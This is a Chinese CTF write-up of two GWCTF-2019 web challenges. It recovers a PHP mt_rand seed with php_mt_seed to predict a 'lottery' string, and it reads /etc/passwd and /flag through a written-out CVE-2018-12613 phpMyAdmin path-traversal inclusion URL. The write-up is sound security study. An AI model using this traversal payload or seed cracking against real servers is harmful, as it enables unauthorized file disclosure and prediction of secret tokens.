



GWCTF-2019之前比赛没做出来，我真是弟弟!
枯燥的抽奖
要求我们猜出后十位，查看网页源码，发现js指向check.php。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
| 8y6CBQcJaW
<?php
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}
mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
$str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";
if(isset($_POST['num'])){
if($_POST['num']===$str){x
echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
}
else{
echo "<p id=flag>没抽中哦，再试试吧</p>";
}
}
show_source("check.php");
|
借鉴wonderkun这位大佬写的
private key，来猜测public key
首先把他给的十位数放到这个脚本里：
1
2
3
4
5
6
7
8
9
10
11
| str1='abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
str2='8y6CBQcJaW'
str3 = str1[::-1]
length = len(str2)
res=''
for i in range(len(str2)):
for j in range(len(str1)):
if str2[i] == str1[j]:
res+=str(j)+' '+str(j)+' '+'0'+' '+str(len(str1)-1)+' '
break
print(res)
|

之后再利用php_mt_seed这个脚本，破解seed
php_mt_seed，要先make，php_mt_seed.C生成php_mt_seed文件，再使用。具体语句Readme里面有。

得到seed
1
2
3
4
5
6
7
8
| mt_srand(342457593);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str = '';
$len1 = 20;
for ($i = 0; $i < $len1; $i++) {
$str .= substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);
}
echo "<p id='p1'>" . $str . "</p>";
|

得到字符。
感谢晓黑老哥，之前php用的是5.3版本，忘记改了，记得要改成7.1及以上。
我有一个数据库
发现phpMyAdmin,可以利用现成poc直接打。
http://ip:port/phpmyadmin/index.php?target=db_datadict.php%253f/../../../../../../../../etc/passwd
发现可以用，试试flag
?target=db_datadict.php%253f/../../../../../../../../flag
参考：cve-2018-12613-PhpMyadmin后台文件包含